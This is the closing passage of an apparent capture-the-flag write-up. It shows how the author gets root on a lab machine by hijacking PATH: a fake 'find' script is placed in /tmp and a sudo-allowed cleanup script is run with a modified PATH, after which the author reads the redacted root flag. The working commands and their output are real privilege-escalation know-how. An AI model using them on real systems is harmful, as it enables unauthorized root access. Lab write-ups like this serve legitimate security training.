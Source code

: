 > Unfortunately we have no write permissions.
{: .prompt-danger }

Lets have a look into the file itself.

```bash
$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

There is one binary (`find`) used which is not called by its full path.

> So, we are able to exploit how `linux` handles its `PATH` priorities to gain `root` access.
{: .prompt-info }

At first lets create a '`bash`' file in the `/tmp` directory and make it executable.
```bash
$ echo bash > /tmp/find
echo bash > /tmp/find
$ chmod +x /tmp/find
chmod +x /tmp/find
```

Now we are executing `/opt/cleanup.sh` with `sudo` and aditionally we are specifying the `PATH` environment to start with `/tmp`.

```bash
$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
sudo PATH=/tmp:$PATH /opt/cleanup.sh
whoami
root
```

> There we go! Root!
{: .prompt-info }

## get second flag
```bash
cd /root
ls
root.txt
cat root.txt
8******************************f
```

Pwned! <@:-)
